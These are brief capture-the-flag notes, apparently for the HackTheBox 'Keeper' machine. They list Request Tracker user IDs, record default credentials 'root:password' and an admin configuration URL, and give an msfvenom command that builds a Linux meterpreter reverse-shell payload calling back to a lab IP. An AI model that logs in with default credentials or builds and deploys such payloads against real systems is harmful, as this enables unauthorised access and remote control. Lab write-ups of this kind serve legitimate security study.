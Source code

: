 # Keeper

http://tickets.keeper.htb/rt/User/Summary.html?id=number 1 - RT System itself 2 - root 27 - lnorgaard 29 - webmaster

credentials `root:password`

<figure><img src="../../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Config file : http://tickets.keeper.htb/rt/Admin/Tools/Configuration.html

```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -o payload -f elf -e cmd/perl
```

